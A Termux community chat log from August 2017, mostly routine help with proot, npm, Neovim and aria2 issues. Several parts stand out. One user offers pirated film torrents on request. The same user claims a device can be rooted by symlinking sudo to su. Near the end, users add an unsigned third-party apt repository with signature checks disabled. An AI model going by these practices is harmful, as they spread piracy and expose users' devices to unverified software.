2017-08-19 14:37:45	gitter	(Auxilus) Atm?

2017-08-19 14:37:55	gitter	(Auxilus) @Ashish882?

2017-08-19 14:38:25	gitter	(Auxilus) @everyone

2017-08-19 14:38:45	gitter	(Auxilus) Plz try if

2017-08-19 14:38:45	gitter	`magnet:?xt=urn:btih:6a338e33a0db21821e966ac0cbadb67ff1df1c76&dn=4.14.21.zip&tr=udp%3a%2f%2ftracker.opentrackr.org%3a1337%2fannounce&tr=udp%3a%2f%2ftracker.yify-torrents.com%2fannounce&tr=udp%3a%2f%2fopen.demonii.com%3a1337&tr=udp%3a%2f%2fexodus.desync.com%3a6969&tr=udp%3a%2f%2ftracker.istole.it%3a80&tr=udp%3a%2f%2ftracker.publicbt.com%3a80&tr=udp%3a%2f%2ftracker.leechers-paradise.org%3a6969&tr=udp%3a%2f%2f9.rarbg.com%3a2710&tr=udp%3a%2f%2ftr

2017-08-19 14:38:45	gitter	udp%3a%2f%2ftracker.openbittorrent.com%3a80`

2017-08-19 14:38:48	gitter	(Auxilus) Works

2017-08-19 14:39:11	gitter	(Auxilus) I created this torrent and seeding from termux

2017-08-19 22:23:12	poyntz	Is there any way to send a command to termux via the sharemenu or something?

2017-08-19 22:23:59	poyntz	so say you're in a browser, you copy a command you find to clipboard, is there any menu item that lets you send that command directly to bash?

2017-08-19 22:39:33	live_the_dreams	paste ?

2017-08-19 22:45:16	poyntz	naa. sorry - adding copy to the explanation didn't help

2017-08-19 22:46:48	poyntz	there's an app called SearchBar Ex, which launches stuff around your android, you can type little commands into the searchbar to create new calendar events, new tasks, map directions, perform wiki searches,etc.. was wondering if there was a way to input a shell command to execute that shell command in termux

2017-08-19 22:47:29	poyntz	if you're familiar with an application called 'Alfred 2' in that application you can type > followed by a command and it executes the command in your preferred terminal

2017-08-19 22:47:50	live_the_dreams	no idea sorry

2017-08-19 22:48:43	live_the_dreams	there might be a way i don't know

2017-08-19 22:48:57	poyntz	no worries.. as a bit of a workaround can type > in SearchBar Ex which launches termux directly, then can type the command direct into termux

2017-08-19 22:49:20	poyntz	but it's not as nice as firing the command into searchbar directly

2017-08-19 22:49:28	poyntz	then launching the command inside termux

2017-08-19 22:54:46	poyntz	so if you type input, 'man cat|less' into SearchBar, the executed command output displays in termux

2017-08-19 22:54:46	poyntz	rather than typing it directly into termux

2017-08-19 23:31:42	rods-tab3	there is termux app to paste clipboard to your termux window

2017-08-20 01:56:10	gitter	(Hax4us) tar is giving error :-- bus error

2017-08-20 01:56:24	gitter	(Hax4us) While extracting a .tar.xz file

2017-08-20 01:58:36	gitter	(Hax4us) @sdrausty @vishalbiswas  @everyone

2017-08-20 02:09:07	gitter	(vishalbiswas) inside proot?

2017-08-20 04:11:35	gitter	(Hax4us) proot info: vpid 1: terminated with signal 4

2017-08-20 04:12:06	gitter	(Hax4us) Anybody have any solution

2017-08-20 03:23:37	u0_a189	hey

2017-08-20 03:24:57	u0_a189	the programs installed via apt were not accessible via root

2017-08-20 03:25:13	gitter	(suryapoo) $ npm install react react-dom --save

2017-08-20 03:25:13	gitter	(suryapoo) npm ERR! Linux 3.4.0-g7717f76

2017-08-20 03:25:13	gitter	(suryapoo) npm ERR! argv "/data/data/com.termux/files/usr/bin/node" "/data/data/com.termux/files/usr/bin/npm" "install" "react" "react-dom" "--save"

2017-08-20 03:25:13	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=5999476776a757f808c38fd1]

2017-08-20 03:25:33	gitter	(suryapoo) Guys im getting the above error when i try to install react and react-dom

2017-08-20 03:25:46	u0_a189	i changed root's $PATH so it "sees" them

2017-08-20 03:26:00	u0_a189	but the programs say they need libraries

2017-08-20 03:26:09	u0_a189	so what should i do?

2017-08-20 03:27:56	u0_a189	when i get on root via tsu it "sees" the programs, but says "permission denied"

2017-08-20 03:36:22	u0_a189	anyone here?

2017-08-20 03:41:53	u0_a189	k, found the way to do it

2017-08-20 03:42:08	u0_a189	bye

2017-08-20 05:52:00	gitter	(Auxilus) Anyone online ATM?

2017-08-20 05:52:40	gitter	(gabasch01) root

2017-08-20 05:53:13	gitter	(Auxilus) Hey @gabasch01

2017-08-20 05:53:23	gitter	(Auxilus) Do you have torrent client atm?

2017-08-20 05:54:18	gitter	(Auxilus) Can anyone try to download transformers from http://9787a8bb.ngrok.io?

2017-08-20 05:54:38	gitter	(Auxilus) Just download and open torrent file in client

2017-08-20 05:55:01	gitter	(gabasch01) thanks

2017-08-20 05:55:42	gitter	(Auxilus) @gabasch01 for?

2017-08-20 05:55:54	gitter	(Auxilus) Im not seeding interstellar

2017-08-20 05:56:42	gitter	(Auxilus) Im seeding kalifs and friends seasona and transformers

2017-08-20 05:59:47	gitter	(Auxilus) Tell me movie name, ill upload the torrent

2017-08-20 07:24:08	gitter	(cr4shcod3) Hello

2017-08-20 08:33:01	gitter	(Hax4us) I have success fully installed Ubuntu proot but  I m trying to reinstall Ubuntu proot amd I don't know how and why ....tar is giving error while extracting Ubuntu.tar.gz file

2017-08-20 08:33:26	gitter	(Hax4us) tar: bin/rbash: Cannot change mode to rwxrwxrwx: No such file or directory

2017-08-20 08:33:26	gitter	(Hax4us) tar: bin/ypdomainname: Cannot change mode to rwxrwxrwx: No such file or directory

2017-08-20 10:28:57	gitter	(mklein994) @fornwall `nodejs-current` is not letting me install anything globally. I'm on arm Android 7.1, is anyone else having problems?

2017-08-20 10:33:00	gitter	(mklein994) @fornwall https://gist.github.com/mklein994/e349522e2e84923bb1d2fc8df1deb1ac

2017-08-20 12:05:02	gitter	(fornwall) @mklein994 hm, could it be that the updated npm in nodejs-current tries to do a file system hard link (which android does not allow)?

2017-08-20 12:05:25	gitter	(fornwall) I get ```$ npm install -g gitter-irc-bot

2017-08-20 12:05:25	gitter	(fornwall) Unhandled rejection Error: EACCES: permission denied, link '/data/data/com.termux/files/home/.npm/_cacache/tmp/c2e85417' -> '/data/data/com.termux/files/home/.npm/_cacache/content-v2/sha512/12/a0/6d91bc0e780ece9e2deac64c71a4873db990b5d4e28c1610235248de1c993ef1010e251db2fa9787ad7d2e689948ca1c78d455bc06139c66bd5e35c83296'```

2017-08-20 12:09:41	gitter	(mklein994) Yeah, that's a very similar error to the gist I gave a link to. That was my feeling. I'm not sure, but I seem to remember that the other `nodejs` package had a patch around it. I don't know enough to help there, but is this an easy fix?

2017-08-20 16:46:30	gitter	(fornwall) @mklein994 hm, it doesn't seem like an easy fix, npm v5 seems to use file system hard links for lock files and cache files

2017-08-20 19:22:34	sdrausty	@forwall `sed` ?

2017-08-20 19:24:11	sdrausty	It shouldn't be difficult to change hard code to soft code. 

2017-08-20 19:24:36	sdrausty	find everything and change it

2017-08-20 22:05:17	live_the_dream_s	 hmm you can't build vim after you build libvterm

2017-08-20 22:05:36	live_the_dream_s	vim build fails hard

2017-08-20 22:43:12	live_the_dream_s	pull request fix

2017-08-21 01:08:51	Vahid	Hi

2017-08-21 01:12:35	Termix	Why Java is not supported? Is there a possibility that it will be added?

2017-08-21 01:14:30	live_the_dream_s	umm the jdk and jvm is availabl3 for all archs buy aarch64 but its not stable on arm and i dunno bout x86

2017-08-21 03:41:56	azarus	How can I disable command-not-found? It slows down my prompt, but 'apt remove command-not-found' wants to remove packages I need :(

2017-08-21 05:00:31	frumpylava	azarus: bash or zsh?

2017-08-21 05:01:33	frumpylava	azarus: in zsh you can just run `unset -f command_not_found_handler` from your .zshrc

2017-08-21 05:02:07	gitter	(Hax4us) @frumpylava tar is not working while extracting

2017-08-21 05:02:57	frumpylava	azarus: actually that should work in both bash and zsh

2017-08-21 05:03:12	frumpylava	@Hax4us why not?

2017-08-21 05:04:18	gitter	(Hax4us) @frumpylava lol i m asking u

2017-08-21 05:04:47	gitter	(Hax4us) tar: bin/rbash: Cannot change mode to rwxrwxrwx: No such file or directory

2017-08-21 05:04:47	gitter	(Hax4us) tar: bin/ypdomainname: Cannot change mode to rwxrwxrwx: No such file or directory

2017-08-21 05:10:54	frumpylava	@Hax4us hmm works for me.

2017-08-21 05:11:19	azarus	frumpylava: I commented out command_not_handler in /data/data/com.termux/files/usr/etc/zshrc

2017-08-21 05:11:23	azarus	Seems to work.

2017-08-21 05:12:06	azarus	(only for zsh of course)

2017-08-21 05:12:17	gitter	(Hax4us) Tar is working also for me but gives error only while extracting ubuntu.tar.gz file

2017-08-21 05:14:59	live_the_dream_s	couid be hard links?

2017-08-21 05:15:59	gitter	(Hax4us) So..how to extract then..@live_the_dream_s

2017-08-21 05:17:21	gitter	(Hax4us) proot --link2symlink tar -xf Ubuntu.tar.gz is it r8 way...?

2017-08-21 05:20:21	live_the_dream_s	can't remember

2017-08-21 05:21:21	gitter	(Hax4us) 😶😑

2017-08-21 05:21:42	gitter	(Hax4us) Anybody else..?

2017-08-21 05:22:52	live_the_dream_s	https://github.com/termux/termux-packages/issues/1054

2017-08-21 05:22:53	live_the_dream_s	?

2017-08-21 05:24:29	gitter	(Hax4us) Thnx I will try

2017-08-21 05:55:02	azarus	 https://github.com/termux/termux-packages/issues/1054

2017-08-21 05:55:13	azarus	Sorry, copy/paste went wrong.

2017-08-21 05:56:13	gitter	(Hax4us) Means ? @azarus

2017-08-21 05:58:09	azarus	Disregard that message, if you will :)

2017-08-21 09:23:48	gitter	(Ashish882) Hi

2017-08-21 09:24:34	gitter	(Ashish882) Somey time I try to open github.com it can't open what's a region did any know

2017-08-21 09:26:37	u0_a97	hi guys

2017-08-21 09:27:23	u0_a97	why I can't use mpv ?

2017-08-21 09:28:38	u0_a97	guys ?

2017-08-21 12:14:50	gitter	(Ashish882) Hi

2017-08-21 12:14:50	gitter	(Ashish882) Anyone

2017-08-21 12:15:04	gitter	(Ashish882) How to install fedora25 in termux

2017-08-21 12:15:35	gitter	(Ashish882) @vishalbiswas @fornwall

2017-08-21 12:15:45	gitter	(Hax4us) Bro i think u know already

2017-08-21 12:16:27	gitter	(Ashish882) Fedora 25

2017-08-21 12:16:37	gitter	(Ashish882) That is fedora

2017-08-21 12:17:23	gitter	(Hax4us) No that was fedora 25

2017-08-21 12:18:06	gitter	(Ashish882) Which one

2017-08-21 12:18:12	gitter	(Hax4us) u can ask in group bro ....90% members have installed fedora 25

2017-08-21 12:18:41	gitter	(Ashish882) Really that is fedora25

2017-08-21 12:18:45	gitter	(Hax4us) Yes

2017-08-21 12:18:54	gitter	(Ashish882) Ohh I thought

2017-08-21 12:18:58	gitter	(Ashish882) It not

2017-08-21 12:19:12	gitter	(Ashish882) Fedora 25 is another thing

2017-08-21 12:19:15	gitter	(Ashish882) Lol

2017-08-21 12:19:17	gitter	(Hax4us) U can also install 26

2017-08-21 12:19:43	gitter	(Ashish882) Fatrat in fedora25

2017-08-21 12:19:58	gitter	(Ashish882) Possible

2017-08-21 12:20:11	gitter	(Ashish882) I see screen shot

2017-08-21 16:09:28	nitrospectide	How can I get Termux to gen and use my RSA key in ~/.ssh instead of deep in /data/data/com/termux/files/home?

2017-08-21 16:32:32	ParkerR	nitrospectide, /data/data/com/termux/files/home IS `/ is it not?

2017-08-21 16:32:34	ParkerR	*~/

2017-08-21 16:34:09	nitrospectide	ParkerR: My scenario was that I wanted to use a GUI text editor app to edit one of my keys, but I can't get to that folder.

2017-08-21 16:34:40	ParkerR	Ahh yeah because of the sandboxing

2017-08-21 16:34:44	ParkerR	Data read only by default

2017-08-21 16:34:52	ParkerR	Hmm

2017-08-21 16:35:45	nitrospectide	The editor won't nav past the first /data folder. It sees nothing there.

2017-08-21 16:36:19	ParkerR	Yes, because if you arent rooted you cant see those files

2017-08-21 16:36:32	ParkerR	Only applications that opwn the files can see their own folders without root

2017-08-21 16:36:36	ParkerR	*own

2017-08-21 19:30:24	gitter	(mklein994) I'm getting an error when I quit Neovim:

2017-08-21 19:32:29	gitter	(mklein994) ```bash session

2017-08-21 19:34:54	gitter	(mklein994) @mklein994 formatting on mobile is *hard*

2017-08-21 19:35:52	gitter	(mklein994) Is this happening to anyone else?

2017-08-21 19:41:09	gitter	(mklein994) I fixed the error message to be easier to reproduce.

2017-08-21 20:07:05	live_the_dream_s	im getting error exiting nvim time to do some debugging

2017-08-21 20:15:51	live_the_dream_s	no bugs on x86_64

2017-08-21 20:17:07	live_the_dream_s	seems to be aarch64 only im getting?

2017-08-21 20:22:06	live_the_dream_s	https://pastebin.com/BM3k3V6C

2017-08-21 20:22:07	live_the_dream_s	?

2017-08-21 20:25:46	live_the_dream_s	also unibilium.c:735: const char *unibi_get_str(const unibi_term *, enum unibi_string): assertion "v > unibi_string_begin_ && v < unibi_string_end_" failed

2017-08-21 20:34:22	gitter	(mklein994) That last one about `unibilium.c` is the exact same error that I got. It also messes with the terminal; scrolling is broken among a few other things.

2017-08-21 20:35:09	live_the_dream_s	yeah

2017-08-21 20:35:32	live_the_dream_s	since it isn't doing it on x86_64 or arm? you are using aarch64 right?

2017-08-21 20:35:54	gitter	(mklein994) Actually no, Android 7.1.2 arm.

2017-08-21 20:36:11	live_the_dream_s	could be a 7.1 issue then

2017-08-21 20:36:23	live_the_dream_s	my only 7.0 ++ device is aarch64

2017-08-21 20:36:27	live_the_dream_s	k there we go

2017-08-21 20:36:57	live_the_dream_s	now to figure wtf changed?

2017-08-21 20:37:18	gitter	(mklein994) It hasn't been like that before… there's probably been a lot of changes between the releases on termux.net.

2017-08-21 20:37:38	live_the_dream_s	yeah could be ncurses since htat has been updated a lot

2017-08-21 20:37:57	live_the_dream_s	could be lots of things

2017-08-21 20:40:03	gitter	(mklein994) This has been the last change: https://github.com/termux/termux-packages/commit/0bb0e20a36ace786ffc3745931376157e7334866

2017-08-21 20:40:06	live_the_dream_s	nope getting error

2017-08-21 20:40:10	live_the_dream_s	on x86_64

2017-08-21 20:40:12	live_the_dream_s	now

2017-08-21 20:40:42	gitter	(mklein994) Specifically https://github.com/termux/termux-packages/blob/0bb0e20a36ace786ffc3745931376157e7334866/packages/neovim/build.sh

2017-08-21 20:41:50	live_the_dream_s	wasn't getting the issue until i existed termux and restarted app

2017-08-21 20:42:10	gitter	(mklein994) Huh. That's wierd.

2017-08-21 20:42:22	live_the_dream_s	after update of stuff

2017-08-21 20:42:29	live_the_dream_s	like im using the same nvim

2017-08-21 20:42:42	live_the_dream_s	could be libandroid-support issue

2017-08-21 20:44:48	gitter	(mklein994) By the looks of things, the last commit just barely added windows support for `:terminal`, and ci builds failed on that one.

2017-08-21 20:44:49	live_the_dream_s	nope im wrong again

2017-08-21 20:45:08	live_the_dream_s	i screwed up

2017-08-21 20:45:23	live_the_dream_s	too many terminals with different archs and versions of termux

2017-08-21 20:45:53	gitter	(mklein994) Yeah, it gets complicated quick. :wink:

2017-08-21 20:46:22	live_the_dream_s	arm is screwed not x86_64

2017-08-21 20:46:43	gitter	(mklein994) OK… we're getting closer.

2017-08-21 20:48:29	live_the_dream_s	works in tmux ?

2017-08-21 20:49:02	live_the_dream_s	yep

2017-08-21 20:49:28	gitter	(mklein994) Whoa! Neovim crashes before I do anything.

2017-08-21 20:49:56	live_the_dream_s	i was getting that ... then it worked in tmux now it is breaking on x86_64

2017-08-21 20:49:59	gitter	(mklein994) OK, but not with `nvim -u NONE`.

2017-08-21 20:50:23	gitter	(mklein994) …or `-u NORC`.

2017-08-21 20:50:37	gitter	(mklein994) (not crashing)

2017-08-21 20:54:42	Hackz	How to use apache2 in termux

2017-08-21 20:55:48	live_the_dream_s	figured it out

2017-08-21 20:55:56	live_the_dream_s	export TERM=screen

2017-08-21 20:55:58	live_the_dream_s	no crash

2017-08-21 20:57:28	gitter	(mklein994) I have `tmux-256color` as my default terminal in `~/.tmux.conf`

2017-08-21 20:58:19	gitter	(mklein994) Interesting: `TERM=tmux nvim` crashes immediately.

2017-08-21 21:00:08	gitter	(mklein994) Even when set inside of `~/.tmux.conf`.

2017-08-21 21:02:33	gitter	(mklein994) live_the_dream_s: manually setting `$TERM` is a bad idea, as far as I know.

2017-08-21 21:17:50	live_the_dream_s	its preferable to app exiting a nd the screen output is broken

2017-08-22 02:05:12	frumpylava	I have manually set my TERM to `screen-256color`, even though I am using tmux. It works just as well, but it's easier when interacting with legacy servers over ssh running old linuxes where tmux wasn't a thing.

2017-08-22 04:26:23	deepakbndeepu	whats wrong with install.sh? https://usercontent.irccloud-cdn.com/file/htXWZMyW/Screenshot_20170822-135432.png

2017-08-22 04:30:54	gitter	(refacto) I'm getting segfaults with aria2... Any tips on resolving the issue?

2017-08-22 04:31:07	gitter	(refacto) I'm on a OnePlus One with Android 7.1.2

2017-08-22 04:33:15	gitter	(refacto) Should I try building it for myself?

2017-08-22 05:45:02	gitter	(fornwall) I'm looking at the libunibilium assertion that fails when exiting neovim and corrupts the terminal (run `reset` to reset the terminal if it happens to you)

2017-08-22 05:58:14	azarus	I have a docker environment now, but when I run ./scripts/run-docker.sh ./build-package.sh -a arm aria2 this shows up: https://dpaste.de/hD7Q

2017-08-22 05:58:17	azarus	Any help?

2017-08-22 06:03:39	gitter	(fornwall) live_the_dream, @mklein994 : I wrote about it in https://github.com/neovim/neovim/pull/7204

2017-08-22 06:03:53	gitter	(fornwall) hopefully we can get a reply there soon

2017-08-22 06:17:14	frumpylava	deepakbndeepu: Your screenshot doesn't work for me. I'm getting permission denied.

2017-08-22 06:47:27	Regenaxer	Hi all! I try to start an app with a custom file format with "termux-share my/foo.pil", but I get "Share with" "No apps can perform this action"

2017-08-22 06:47:44	Regenaxer	The app has an  <intent-filter> with android:pathPattern=".*\\.pil" etc.

2017-08-22 06:47:54	Regenaxer	(and other necessary params)

2017-08-22 06:48:16	Regenaxer	I wonder what might be necessary to get it recognized

2017-08-22 07:11:16	deepakbndeepu	frumpylava: I deleted it, I got the solution to that problem

2017-08-22 07:11:16	frumpylava	deepakbndeepu: alright, cool.

2017-08-22 07:25:17	gitter	(fornwall) @mklein994 & live_the_dream_s: can you updated to version 0.2.1~20170822-1 of neovim and see if it works ok for you now (without needing to change TERM)?

2017-08-22 07:32:59	azarus	I've had issues with the latest neovim as well :(

2017-08-22 07:53:40	azarus	I'll update it soon.

2017-08-22 07:54:22	azarus	Also, neovim seems to be creating weird directories for me, like nvimfd235w

2017-08-22 07:54:42	azarus	That's quite frustrating, makes all sorts of stuff go wrong.

2017-08-22 07:55:26	live_the_dream_s	still getting error

2017-08-22 07:55:49	azarus	Always these directories like 'nvimfZIkdl' :(

2017-08-22 07:56:37	live_the_dream_s	wrong no error

2017-08-22 07:56:45	live_the_dream_s	working fine!

2017-08-22 08:01:51	fornwall	live_the_dream_s: great!

2017-08-22 08:29:06	gitter	(mklein994) No error for me. Thanks!

2017-08-22 08:42:16	gitter	(mklein994) azarus: If your talking about those in `$PREFIX/tmp`, those are generated when you use Neovim. They can safely be deleted after using it if they bug you.

2017-08-22 08:43:08	azarus	mklein994: No. not in $PREFIX/tmp, everywhere nvim is executed.

2017-08-22 08:43:21	frumpylava	@mklein994 I had the same issue previously before it magically vanished a few months ago, where it would generate it the cwd where nvim is executed.

2017-08-22 08:44:50	gitter	(mklein994) Is $TMPDIR set? I think it's set by default now after a recent update to Termux.

2017-08-22 08:48:15	frumpylava	@mklein994 that would be plausible, as I've set that manually and a few months ago as well to fix something unrelated.

2017-08-22 08:58:43	azarus	Okay, I'll set $TMPDIR in my .zshrc

2017-08-22 09:00:02	frumpylava	@mklein994 I don't think it is set by default now. I think it's just set when texlive is installed.

2017-08-22 09:00:35	azarus	The build of aria2 doesn't work for me when installed from the repository. It works when I built it myself though!

2017-08-22 09:00:48	azarus	For the 'arm' arch,

2017-08-22 09:01:56	gitter	(mklein994) Oh... That makes sense. I also have set it manually to fix some unrelated build issues, and remember seeing it pop up in the commit history.

2017-08-22 09:02:07	gitter	(mklein994) azarus: did that fix the Neovim problem?

2017-08-22 09:02:29	frumpylava	hmm... perhaps aria2 needs to be rebuild because one of the dependencies got updated.

2017-08-22 09:02:49	azarus	frumpylava: Yup, shouldn't be too difficult.

2017-08-22 09:03:04	azarus	mklein994: Didn't test it extensively yet.

2017-08-22 09:32:26	frumpylava	I can reproduce the segfaults on my arm device.

2017-08-22 13:07:26	maxamillion	I just started donating to the patreon page, I'm a big fan ... thanks to all involved in creating and maintaining Termux! :)

2017-08-22 13:34:22	fornwall	frumpylava & azarus: a revision-bumped aria2 package is available at version 1.32.0-2

2017-08-22 13:34:25	fornwall	does that fix the arm issue?

2017-08-22 13:52:13	azarus	fornwall: Seems to, for me.

2017-08-22 13:58:44	fornwall	azarus: great!

2017-08-22 14:39:32	tofupekoni	hi! can anyone tell me how exactly I can disable the need to press alt, when using screen commands?

2017-08-22 14:41:45	tofupekoni	been using termux for a while now and I'm just loving it! supercharget my android for sure!

2017-08-22 14:53:54	tofupekoni	oh, now I understand, read the f'ng manual.. *facepalm* :D

2017-08-22 15:02:49	gitter	(Auxilus) I found a method to root a device.. Just by executing `ln -s /system/xbin/sudo /system/bin/su` and `ln -s /system/xbin/sudo /system/xbin/su`

2017-08-22 15:03:02	gitter	(Auxilus) Is it a safe method?

2017-08-22 16:16:25	frumpylava	How do I enable the Encrypt-to-self neomutt feature in mutt? https://www.neomutt.org/feature/encrypt-to-self I can't find any option about it in .configure?

2017-08-22 18:18:57	knova_	python

2017-08-22 18:19:04	knova_	oops

2017-08-22 18:19:09	knova_	mt

2017-08-22 20:40:41	gitter	(cocodevienne) Hey, @Auxilus.

2017-08-22 20:41:01	gitter	(cocodevienne) Check this out, yo.

2017-08-22 20:41:35	gitter	(cocodevienne) http://gitlab.con/cocodevienne/termuxpackagessource

2017-08-22 20:42:17	gitter	(cocodevienne) What you asked for. Everybody else: Feel free to check it out as well!:)

2017-08-22 22:54:56	gitter	(Auxilus) @cocodevienne link does not work

2017-08-23 03:51:48	gitter	(suryapoo) Guys...any success with Java ?

2017-08-23 06:42:46	gitter	(cocodevienne) hang on @Auxilus

2017-08-23 07:17:19	gitter	(cocodevienne) https://gitlab.com/cocodevienne/termuxpackagessource

2017-08-23 07:17:31	gitter	(cocodevienne) This link works now!

2017-08-23 07:17:53	gitter	(cocodevienne) And here the packages for Desktop [ALL ARCHES]:

2017-08-23 07:18:12	gitter	(cocodevienne) https://gitlab.com/cocodevienne/debianpackagessource

2017-08-23 07:18:22	gitter	(cocodevienne) Some feedback would be great!

2017-08-23 07:26:47	gitter	(cocodevienne) Wht doesn't this work??

2017-08-23 07:26:49	gitter	(cocodevienne) *Why

2017-08-23 07:27:24	gitter	(cocodevienne) `deb [trusted=yes] https://cocodevienne.gitlab.io/aptpackages/termuxpackages`

2017-08-23 07:27:52	gitter	(cocodevienne) When I add this to my `sources.list` I get a `malformed entry` error.

2017-08-23 07:28:06	gitter	(cocodevienne) @fornwall

2017-08-23 08:52:17	gitter	(cocodevienne) can someone help?

2017-08-23 09:01:01	gitter	(Auxilus) @cocodevienne

2017-08-23 09:03:26	Church-	Cocodevienne: 404 error mate.

2017-08-23 09:03:35	Church-	S'nothing there.

2017-08-23 09:27:14	lolifang	Is there any way to reset zoom to its default settings?

2017-08-23 09:27:46	lolifang	I know I can pinch and stuff, but I'd like to know if there's a way to "reset" it.

2017-08-23 11:27:54	frumpylava	I find thid /proc Android O issue very concerning. These are very important features. It's almost as if there is an expiry date on Termux.

2017-08-23 11:29:05	eggy	proc issue?

2017-08-23 11:30:58	frumpylava	https://github.com/termux/termux-app/issues/299

2017-08-23 11:33:14	icebal	im on full O, still an issu

2017-08-23 11:34:16	icebal	TCSAFLUSH during pkg install is also geting tcsetaddr 13: permission denied

2017-08-23 11:36:55	frumpylava	I'll definitely stay on Nougat until a workaround has been found. Possibly I'll have use a custom rom for the first time in years.

2017-08-23 11:37:48	eggy	:/

2017-08-23 11:47:05	gitter	(cocodevienne) Go here for now: https://gitlab.com/cocodevienne/cocodevienne.gitlab.io

2017-08-23 11:47:08	gitter	(cocodevienne) @Auxilus

2017-08-23 11:47:28	gitter	(cocodevienne) @Church-

2017-08-23 11:48:10	gitter	(Auxilus) @cocodevienne how do I add your repo to termux?

2017-08-23 11:48:50	gitter	(cocodevienne) It said in the link I sent!:)

2017-08-23 11:48:54	gitter	(cocodevienne) @Auxilus

2017-08-23 11:49:04	gitter	(Auxilus) Kk ill check it out

2017-08-23 11:50:11	gitter	(cocodevienne) If you have problems, tell me! For me the repo link isn't working for some reason. I tagged @fornwall above for help.

2017-08-23 11:50:18	gitter	(cocodevienne) Tell me if it works fine for you.

2017-08-23 11:50:53	gitter	(cocodevienne) Don't forget to close & restart Termux after updating "sources.list" and running `apt update`.

2017-08-23 11:53:17	gitter	(Auxilus) There must be something like `extra ` or something like that after your repo link in sources.list

2017-08-23 11:53:34	gitter	(cocodevienne) Is it just me or is Android as a platform becoming more and more like IOS? @frumpylava

2017-08-23 11:53:47	gitter	(cocodevienne) There is!:) @Auxilus

2017-08-23 11:53:52	gitter	(cocodevienne) Does it work?

2017-08-23 11:54:07	gitter	(Auxilus) Nah i dont remember that syntax...

2017-08-23 11:54:41	gitter	(Auxilus) Im searching ri8 now

2017-08-23 11:58:45	gitter	(cocodevienne) I wrote it there...

2017-08-23 11:58:49	gitter	(cocodevienne) @Auxilus

2017-08-23 11:59:00	gitter	(cocodevienne) Under "Installing"

2017-08-23 11:59:26	gitter	(cocodevienne) Here: https://gitlab.com/cocodevienne/termuxpackagessources

2017-08-23 11:59:30	gitter	(cocodevienne) @Auxilus

2017-08-23 12:09:55	gitter	(aafrey) is there any documentation anywhere on how to use `proot`?

2017-08-23 12:19:17	gitter	(Auxilus) Nice, ill add it right away

2017-08-23 12:23:28	gitter	(cocodevienne) Tell me if it works though! With me the link is broken for some reason.

2017-08-23 12:51:50	gitter	(cocodevienne) @Auxilus

2017-08-23 12:55:35	frumpylava	@cocodevienne yeah. All I really want is a portable Linux :(

2017-08-23 12:58:28	frumpylava	Maybe I'll just replace my phone with that one 7 inch laptop.

2017-08-23 13:00:28	gitter	(cocodevienne) What for though? @frumpylava

2017-08-23 13:08:13	frumpylava	I really want to do the bulk of my computing on a very small ultra-portable device. Right now Termux fills that void. But if Android gets any worde I'll have to seriously look into alternatives.

2017-08-23 13:08:21	u0_a93	frumpylava: You can't put a seven inch laptopin your pocket.

2017-08-23 13:08:40	frumpylava	u0_a93: I know. :(

2017-08-23 13:12:27	gitter	(cocodevienne) Have ypu looked into Nethunter?

2017-08-23 13:12:31	gitter	(cocodevienne) #234

2017-08-23 13:13:11	gitter	(cocodevienne) https://www.kali.org/kali-linux-nethunter/

2017-08-23 13:13:18	gitter	(cocodevienne) @frumpylava

2017-08-23 13:14:57	frumpylava	seems interessting. KDE Plasma also looks promissing.

2017-08-23 13:15:54	gitter	(cocodevienne) There you go, keep your hat on!;)

2017-08-23 13:16:01	gitter	(cocodevienne) @frumpylava

2017-08-23 13:16:16	gitter	(cocodevienne) Yo, @Auxilus

2017-08-23 13:16:23	gitter	(cocodevienne) How is it going??

2017-08-23 13:24:29	gitter	(aafrey) trying to use termux on chromebook. app works great but I can't use `su` i'd like to use proot but can't without su. any suggestions?

2017-08-23 13:24:58	gitter	(aafrey) `which su` yields `/data/data/com.termux/files/usr/bin/su`

2017-08-23 13:27:35	gitter	(Auxilus) @cocodevienne

2017-08-23 13:27:38	gitter	(Auxilus) N: Skipping acquire of configured file 'extras/binary-aarch64/Packages' as repository 'http://cocodevienne.gitlab.io/aptpackages/termuxpackages termux InRelease' doesn't support architecture 'aarch64'

2017-08-23 13:44:37	Church-	PostmarketOS is coming along nicely. Cough cough

2017-08-23 13:44:40	Church-	Wink winl

2017-08-23 13:44:43	Church-	wink*

2017-08-23 13:44:48	Church-	#postmarketos

2017-08-23 14:19:37	rods-tab3	termux ?   https://arstechnica.com/information-technology/2017/08/500-google-play-apps-with-100-million-downloads-had-spyware-backdoor

2017-08-23 14:38:46	maxamillion	rods-tab3: I'm not an android dev but a quick 'git grep' through the termux-app source repo from github and there's no mention of lgexin

2017-08-23 14:43:28	u0_a93	https://blog.lookout.com/igexin-malicious-sdk rods-tab3:

2017-08-23 14:53:08	rods-tab3	a93 - thnx

2017-08-23 14:54:11	rods-tab3	maxa10^6 - did you grep all 685 apps installable from termux ?

2017-08-23 14:54:59	u0_a93	rods-tabs3v you're welcome. tnx for your post too

2017-08-23 14:55:01	rods-tab3	and it could be self-modifiable code thats hides igexin until execution

2017-08-23 15:01:44	maxamillion	rods-tab3: the apps in the repos? those are recompiled debian packages ... do they really have anything to do with Android?

2017-08-23 15:02:32	rods-tab3	could someone sneek code in ?

2017-08-23 15:13:13	gitter	(cocodevienne) Try to execute `apt install nox` and tell me what happens?

2017-08-23 15:13:16	gitter	(cocodevienne) @Auxilus

2017-08-23 15:14:41	gitter	(Auxilus) Wait...

2017-08-23 15:15:01	gitter	(Auxilus) @cocodevienne ye it installed

2017-08-23 15:15:30	gitter	(cocodevienne) So you can execute `nox -v`?

2017-08-23 15:15:35	gitter	(cocodevienne) @Auxilus

2017-08-23 15:16:36	gitter	(Auxilus) Ye, `NOX 2017.0`

2017-08-23 15:20:22	gitter	(cocodevienne) Hm, funny.

2017-08-23 15:21:11	gitter	(Auxilus) Why? @cocodevienne

2017-08-23 15:39:05	gitter	(cocodevienne) Because with me I get a `malformed` entry error. What exactly did you add to the `sources.list`?

2017-08-23 15:39:14	gitter	(cocodevienne) Just as I said in the tutorial?

2017-08-23 15:39:18	gitter	(cocodevienne) @Auxilus

2017-08-23 16:00:28	gitter	(Auxilus) Aye...

2017-08-23 16:01:02	gitter	(Auxilus) `deb [trusted=yes] http://cocodevienne.gitlab.io/aptpackages/termuxpackages termux extras`

2017-08-23 16:01:20	gitter	(cocodevienne) Haha what? @Auxilus

2017-08-23 16:01:47	gitter	(Auxilus) I added this...

2017-08-23 16:02:20	gitter	(Auxilus) localhost /d/d/c/files > apt list |grep /termux

2017-08-23 16:02:20	gitter	(Auxilus)

